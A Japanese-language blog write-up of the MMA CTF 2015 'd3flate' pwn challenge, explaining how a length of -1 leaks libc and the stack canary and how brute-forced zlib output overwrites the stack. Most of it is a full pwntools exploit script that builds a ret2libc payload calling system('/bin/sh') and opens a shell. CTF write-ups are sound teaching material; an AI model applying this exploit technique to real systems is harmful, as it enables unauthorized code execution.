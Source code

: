 ```yaml
---
layout: post
alias: "/blog/2016/09/09/mma-ctf-2015-d3flate/"
date: "2016-09-09T15:08:55+09:00"
tags: [ "ctf", "writeup", "mmactf", "pwn", "zlib", "canary" ]
"target_url": [ "https://github.com/ctfs/write-ups-2015/tree/master/mma-ctf-2015/pwn/d3flate-500" ]
---
```


# MMA CTF 2015: d3flate

解けないからwriteupを見たが、writeupにあった実装ではどれもzlibの計算が停止する気配がなかった。追加で頑張った。

## solution

全体の流れは単純。

1.  proof-of-workを解く
2.  長さに$-1$を指定してlibc baseとcanaryをleak
3.  以下を繰り返す
    1.   平文を送る
    2.   そのzlib圧縮結果のbofでstackを書き換える
4.  `Bye`と送って発火

proof-of-workは単純にやるしかない。
運が悪いとけっこうかかる。

stackのleakに関して。
長さに$-1$を指定すると、標準入力からの読み込みは実際には行われないが$255$文字読まれた扱いになる。
ここで、proof-of-workの際の関数によるcanary等が`$esp`より低位側に残されているので、これが読める。
proof-of-workが邪魔だからとbinaryを書き換えてnopで埋めていると、canaryが見つからずどうにもならなくなるので注意。

stackへの書き込みは、文字列`s`を送ると`zlib.compress(s)`が書き込まれる。
canaryやreturn先address等が書き変わるが、当然書き込む値は自由にはならない。
これは探索をする。平文となる`s`を`zlib.compress(s)`が要件を満たすまで生成し続ければよい。
乱数を突っ込めば圧縮できずにそのまま出てくるが、そのようなものは禁止されているので使えない。
ただし最低でも$12$byte (canary + system + `/bin/sh`)を書き込む必要があり、一括で書き込むのは難しい。
$1$byteずつ後ろから書き込むとよい。

## implementation

``` python
#!/usr/bin/env python2
import os
import time
import random
import zlib
import itertools
import hashlib
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

p = process('./d3flate')

salt = p.recvline().split('"')[1] # Send me a proof-of-work sha1("XXXXXXXX" || stripLF(sent)) = 123456xxx...
for witness in itertools.count():
    if witness % 100000 == 0:
        log.debug('witness: %d', witness)
    if hashlib.sha1(salt + str(witness)).hexdigest().startswith('123456'):
        break
p.sendline(str(witness))
p.recvline()

p.sendline('-1')
s = p.recv(int(p.recvline()))
s = zlib.decompress(s)
log.info('zlib decompressed:\n' + fiddling.hexdump(s))

libc = ELF('/lib/i386-linux-gnu/libc.so.6') # for my local environment
libc_base = u32(s[0xbc:][:4]) - (libc.symbols['fflush'] + 11)
canary = u32(s[0xc0:][:4])
log.info('libc base: %#x', libc_base)
log.info('canary: %#x', canary)
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search('/bin/sh\0'))
log.info('system  address: %#x', system)
log.info('/bin/sh address: %#x', binsh)

for base, value in [ (0x98, binsh), (0x90, system), (0x80, canary) ]:
    for offset, char in reversed(list(enumerate(p32(value)))):
        for i in itertools.count():
            s = chr(random.randint(0, 255)) * random.randint(30, 40) + os.urandom(base + offset + random.randint(- 10, 20))
            s = s[: 0x80] + '\x78\x9c' + s[0x82 :]
            s = zlib.compress(s)
            s = s[: base + offset + random.randint(-4, 4)] + char
            payload = ''
            z = zlib.decompressobj()
            while s:
                try:
                    payload += z.decompress(s, 1)
                    s = z.unconsumed_tail
                except zlib.error:
                    break
            s = zlib.compress(payload)
            if not s[base + offset :] == char:
                log.debug('trial %d: wrong value: %s != %s', i, repr(s[base + offset :]), repr(char))
                continue
            if not len(s) <= len(payload):
                log.debug('trial %d: wrong length: %d > %d', i, len(s), len(payload))
                continue
            if not len(payload) <= 255:
                log.debug('trial %d: too long payload: 255 < %d', i, len(payload))
                continue
            break
        log.info('payload:\n' + fiddling.hexdump(payload))
        log.info('zlib compressed:\n' + fiddling.hexdump(s))
        p.sendline(str(len(payload) - 256))
        p.sendline(payload)
        s = p.recv(int(p.recvline()))
        log.debug('zlib decompressed: %s\n' + fiddling.hexdump(zlib.decompress(s)))
        assert zlib.decompress(s) == payload
        assert s == zlib.compress(payload)

p.sendline('3')
p.sendline('Bye')

time.sleep(1)
p.sendline('id')
p.interactive()
```
